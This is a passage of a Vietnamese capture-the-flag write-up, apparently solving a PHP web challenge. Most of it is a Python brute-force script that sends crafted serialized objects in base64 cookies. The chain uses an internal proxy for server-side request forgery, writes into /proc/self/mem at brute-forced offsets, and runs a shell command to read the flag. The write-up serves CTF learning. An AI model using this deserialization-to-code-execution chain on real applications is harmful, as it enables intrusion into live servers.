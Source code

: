 Có thể thấy thread ta cần xài là phần đầu của heap

![image](./images/image9.png)

Ok thì bây giờ ta đã biết được thread cần sử dụng nhưng offset thì chưa biết 

Sau khi debug nhiều lần thì mình phát hiện msg chỉ xuất hiện ở offset 470000-530000 thôi nên mình có thể brute force đơn giản

Ok và sau khi thực hiện lại các bước trên trên chal web thì mình chạy đoạn python này để brute

```python
import requests
import base64

cmd_to_run = 'exec(\'import os;os.system("/read_flag > ~/b")\')'

h = "63060d997000"

for j in range(470000, 530000):

    k = str(hex(int(h, 16) + j)).replace("0x", "")

    cmd = 'O:9:"ProxyImpl":4:{s:14:"\x00ProxyImpl\x00url";s:35:"http://back-end:3000/internal/eval?";s:17:"\x00ProxyImpl\x00method";s:4:"POST";s:18:"\x00ProxyImpl\x00headers";a:0:{}s:15:"\x00ProxyImpl\x00data";a:3:{s:4:"file";s:14:"/proc/self/mem";s:6:"offset";s:'+str(len(k))+':"'+k+'";s:6:"length";s:'+str(len(str(len(cmd_to_run))))+':"'+str(len(cmd_to_run))+'";}}'

    cmd = cmd.encode()

    cookie = {'app_cookies':'[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="},{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6MTg6IlxVdGlsczo6cGFnaW5hdGlvbiI7czoyNToiAFV0aWxzAF9jbGVhbnVwX2Z1bmNfYXJncyI7YToxOntpOjA7czo5OiJQcm94eUltcGwiO31zOjI0OiJzaG91bGRfZ2FyYmFnZV9vbmNlX2RvbmUiO2k6MTt9"},{"expire_time":1,"data":"'+base64.b64encode(cmd).decode()+'"}]'}

    x = requests.get("http://4.216.196.42:1337/", cookies=cookie)
    print(j)
```

